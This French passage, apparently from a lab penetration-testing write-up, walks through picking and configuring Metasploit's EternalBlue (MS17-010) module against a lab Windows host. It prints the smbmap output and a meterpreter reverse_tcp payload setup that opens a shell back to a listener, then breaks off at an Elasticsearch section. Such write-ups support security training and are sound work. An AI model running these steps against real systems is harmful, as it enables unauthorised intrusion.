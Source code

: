 
On peut utiliser un exploit Metasploit pour exploiter la vulnérablitié.

Exploit windows/smb/ms17_010_psexec est noté Excellent, il est fiable mais nécessite un named pipe.

Or `smbmap` nous indique qu'il n'y a pas de pipe accessible :
```bash
$ smbmap -H 192.168.56.7                                 
[+] IP: 192.168.56.7:445	Name: 192.168.56.7                                      
```

On peut donc se rabattre sur `windows/smb/ms17_010_eternalblue`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Et on peut obtenir un shell avec la commande `exploit`.
À noter que l'exploit n'est pas particulièrement fiable.


## Elastic Search

En se connectant au port 9200, on peut identifier qu'il s'agit d'un elasticsearch en cherchant sur internet avec le
